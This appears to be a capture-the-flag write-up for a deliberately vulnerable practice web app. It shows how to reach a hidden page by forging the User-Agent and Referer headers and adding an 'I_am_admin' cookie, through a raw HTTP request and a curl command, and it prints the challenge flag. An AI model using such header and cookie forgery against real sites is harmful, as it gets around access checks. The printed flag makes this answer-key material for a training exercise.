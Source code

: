 # Exploit
1. Visit the URL: `/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c` 
   (linked at the bottom of the main page).
2. Check the source code of the page to find the following comments:
   - "You must cumming from : https://www.nsa.gov/ to go to the next step"
   - "Let's use this browser : ft_bornToSec. It will help you a lot."
3. These comments suggest modifying the `User-Agent` and `Referer` headers in the HTTP request.

### Steps:
Send an HTTP request with the following headers:

GET /index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c HTTP/1.1 Host: 192.168.0.30 User-Agent: ft_bornToSec Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8 Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate Referer: https://www.nsa.gov/ Connection: keep-alive Cookie: I_am_admin=68934a3e9455fa72420237eb05902327 Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0, no-cache Pragma: no-cache

Alternatively, use the following `curl` command:

```bash
curl 'http://x.x.x.x/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' \\
-H 'User-Agent: ft_bornToSec' \\
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \\
-H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' \\
--compressed \\
-H 'Referer: https://www.nsa.gov/' \\
-H 'Connection: keep-alive' \\
-H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \\
-H 'Upgrade-Insecure-Requests: 1' \\
-H 'Cache-Control: max-age=0, no-cache' \\
-H 'Pragma: no-cache' | grep 'The flag is'
The HTTP response will contain the flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188.